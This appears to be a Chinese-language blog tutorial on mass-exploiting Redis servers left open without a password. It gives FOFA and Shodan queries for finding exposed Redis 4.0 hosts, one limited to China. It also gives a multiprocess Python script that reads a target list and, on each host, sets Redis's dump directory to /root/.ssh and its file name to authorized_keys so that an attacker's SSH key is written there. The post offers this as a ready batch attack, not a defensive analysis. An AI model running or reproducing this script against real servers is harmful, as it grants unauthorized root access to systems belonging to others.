

#  redis未授权访问漏洞的批量攻击

&emsp;&emsp;Redis在默认情况下，会绑定在0.0.0.0:6379。如果没有采取相关的安全策略，比如添加防火墙规则、避免其他非信任来源IP访问等，这样会使Redis服务完全暴露在公网上。如果在没有设置密码认证(一般为空)的情况下，会导致任意用户在访问目标服务器时，可以在未授权的情况下访问Redis以及读取Redis的数据。攻击者在未授权访问Redis的情况下，利用Redis自身的提供的config命令，可以进行文件的读写等操作。攻击者可以成功地将自己的ssh公钥写入到目标服务器的 /root/.ssh文件夹下的authotrized_keys文件中，进而可以使用对应地私钥直接使用ssh服务登录目标服务器。

## FOFA查询

#### 语法

```port="6379" && "redis_version:4.0.3" && country="CN"```


## Shodan查询

#### 语法

```port:6379 "redis_version:4.0"```


## 应用

&emsp;&emsp;普通的应用方式就不在此介绍了，这里主要想讲一下如何批量进行漏洞利用。脚本代码如下：

```python
import redis
from multiprocessing import Pool
import subprocess

WORKERS = 50


def preDetect(host):
    try:
        r = redis.StrictRedis(host=host, port=6379, db=0, socket_timeout=1)
        return host
    except Exception:
        return False


def evil(host: str):
    host = preDetect(host)
    if host == "False":
        return False
    else:
        cmd = "cat key.txt | redis-cli -h %s -x set crack > log.txt 2>&1" % host
        subprocess.call(cmd, shell=True, stderr=None)
        r = redis.StrictRedis(host=host, port=6379, db=0)
        try:
            r.config_set('dir', '/root/.ssh')
        except Exception as e:
            return False
        r.config_set('dbfilename', 'authorized_keys')
        try:
            r.save()
            print(host)
        except Exception as e:
            return False


if __name__ == "__main__":
    with open("targets.txt") as targets:
        targets = targets.read().splitlines()
    with Pool(processes=WORKERS) as executor:
        executor.map(evil, targets)
```

## 验证截图


